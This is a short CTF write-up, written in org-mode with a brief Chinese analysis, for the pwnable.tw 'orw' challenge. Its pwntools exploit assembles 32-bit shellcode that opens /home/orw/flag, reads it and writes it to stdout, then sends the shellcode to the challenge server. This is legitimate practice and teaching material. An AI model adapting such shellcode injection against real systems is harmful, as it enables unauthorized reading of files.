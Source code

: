 #+TITLE: orw
** 分析
看题目貌似是要用open read write读/home/orw/flag.
那就只能用汇编写了。
** exp
#+BEGIN_SRC python
from pwn import *

filename = r'///home/orw/flag'
file_hex = [filename[x:x+4].encode('hex') for x in xrange(0,len(filename),4)]
filename = ''
for _ in xrange(4):
    filename += "push 0x" +  p32( int( file_hex.pop(),16) ).encode('hex') + "\n"

shellcode = asm( \
    '''
    xor ecx,ecx
    mul edx
    push ecx
    ''' \
    + filename + \
    '''
    xor eax,eax
    mov al,0x5
    mov ebx,esp
    int 0x80
    /* open(esp,0,0)*/
    mov ecx,esp
    xor ebx,ebx
    mov bl,0x3
    mov dl,0x30
    mov al,0x3
    int 0x80
    /* read(0x3,esp,0x80)*/
    mov bl,0x1
    mov al,0x4
    int 0x80
    /* write(1,esp,0x80) */
    '''
)

p = remote('chall.pwnable.tw',10001)
#p = process('./orw')
print p.recv()
p.send(shellcode)
print p.recv()

#+END_SRC
